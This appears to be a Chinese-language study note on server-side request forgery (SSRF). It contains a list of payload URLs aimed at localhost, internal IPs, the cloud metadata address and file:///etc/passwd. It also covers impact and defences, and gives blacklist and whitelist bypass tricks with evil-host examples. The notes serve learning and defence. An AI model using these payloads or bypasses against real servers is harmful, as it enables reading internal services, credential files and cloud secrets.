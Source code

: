 ##常用payload
```
http://127.0.0.1:80
http://127.0.0.1:443
http://127.0.0.1:22

http://localhost:80
http://localhost:443
http://localhost:22

https://127.0.0.1/
https://localhost/

http://[::]:80/
http://[::]:25/ SMTP
http://[::]:22/ SSH
http://[::]:3128/ Squid

http://2130706433/ = http://127.0.0.1
http://3232235521/ = http://192.168.0.1
http://3232235777/ = http://192.168.1.1
http://2852039166/  = http://169.254.169.254

http://0177.0.0.1/

http://expected-host@www.baidu.com

file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd

```
[参考链接](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
## 漏洞基础
	Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make requests to an unintended location.
## 漏洞危害
	利用SSRF可以进行内外网的端口和服务探测、主机本地敏感数据的读取、内外网主机应用程序漏洞的利用等等
## 漏洞防御
1. 设置URL白名单或者限制内网IP
2. 限制请求的端口为http常用的端口，比如 80、443、8080、8090
3. 禁用不需要的协议，仅仅允许http和https请求。可以防止类似于file://, gopher://, ftp:// 等引起的问题
4. 统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态
5. 过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准
6. **个人意见：有些能放服务端的东西，就别由客户端控制参数。**
## 漏洞绕过
### 黑名单
-   Using an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
-   Registering your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
-   Obfuscating blocked strings using URL encoding or case variation.
### 白名单
-   You can embed credentials in a URL before the hostname, using the `@` character. For example:
    `https://expected-host@evil-host`
-   You can use the `#` character to indicate a URL fragment. For example:
    `https://evil-host#expected-host`
-   You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
    `https://expected-host.evil-host`
-   You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
-   You can use combinations of these techniques together.

### 利用重定向
